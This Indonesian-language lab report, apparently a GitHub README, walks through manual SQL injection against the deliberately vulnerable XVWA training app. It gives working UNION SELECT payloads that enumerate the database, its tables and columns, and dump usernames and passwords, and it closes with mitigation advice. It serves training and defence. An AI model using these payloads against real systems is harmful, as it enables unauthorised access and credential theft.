 ![Header](image/sql-injection-based.jpg)

# Laporan Latihan SQL Injection pada XVWA

## 📌 Deskripsi
Latihan ini dilakukan untuk memahami serangan SQL Injection menggunakan manual injection pada aplikasi XVWA (Xtreme Vulnerable Web Application).

## 🔧 Environment Setup
- **Target**: XVWA (Xtreme Vulnerable Web Application)
- **Metode**: Manual SQL Injection
- **Payload yang Digunakan**:
  ```sql
  ' UNION SELECT 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_schema = database() #
  ```
- **Tools**:
  - XVWA di lingkungan **XAMPP/LAMP/WAMP**
  - Browser (Chrome)

## 🎯 Tujuan
1. Mengeksploitasi SQL Injection pada XVWA.
2. Mengambil daftar kolom dalam database saat ini.
3. Memahami struktur database target.

## 🏴 Proses Eksploitasi
1. **Identifikasi Formulir Rentan**
   - Mencari form input yang rentan terhadap SQL Injection.
   - Contoh: **Search Bar** di XVWA.

2. **Pengujian dengan Payload Sederhana**
   - Input awal `' OR '1'='1' #` untuk mengonfirmasi kerentanan.
   - Mengecek jumlah kolom pada database menggunakan `' ORDER BY {index_column} #`.
   - Melakukan UNION SELECT untuk enumerasi lebih lanjut.

3. **Menemukan Nama Database & User Database**
   - Untuk mengetahui nama database yang sedang digunakan:
     ```sql
     ' UNION SELECT 1,database(),3,4,5,6,7 #
     ```
   - Untuk mengetahui user database:
     ```sql
     ' UNION SELECT 1,user(),3,4,5,6,7 #
     ```
   - Output akan menunjukkan nama database dan user yang sedang digunakan oleh aplikasi.

4. **Penggunaan UNION SELECT untuk Enumerasi Kolom**
   - Input eksploitasi:
     ```sql
     ' UNION SELECT 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_schema = database() #
     ```
   - **Hasil Output**: List kolom yang ada dalam database saat ini.

5. **Menemukan Nama Tabel**
   - Untuk mendapatkan daftar tabel dalam database yang sedang digunakan:
     ```sql
     ' UNION SELECT 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema = database() #
     ```
   - Output akan menampilkan daftar tabel yang ada dalam database.

6. **Mengambil Data dari Tabel Sensitif**
   - Setelah menemukan tabel yang relevan (misalnya `users`), data dapat diekstrak dengan query berikut:
     ```sql
     ' UNION SELECT 1,group_concat(username,'::',password,'<br>'),3,4,5,6,7 from users #
     ```
   - **Hasil Output**: Data username dan password dalam format "username::password".

## 🛠 Hasil Uji Coba
Berikut hasil eksekusi payload:
```plaintext
username, password
```
Kolom yang ditemukan menunjukkan struktur tabel yang berisi informasi akun.

## 🏆 Kesimpulan
- Payload berhasil menampilkan daftar kolom dalam database.
- SQL Injection masih menjadi ancaman serius bagi aplikasi yang tidak mengimplementasikan keamanan yang baik.

## 🔐 Rekomendasi Mitigasi
1. Gunakan **Prepared Statements (Parameterized Queries)** untuk mencegah SQL Injection.
2. Batasi hak akses database hanya untuk operasi yang diperlukan.
3. Implementasikan mekanisme **Web Application Firewall (WAF)**.
4. Filter dan validasi input pengguna sebelum diteruskan ke database.

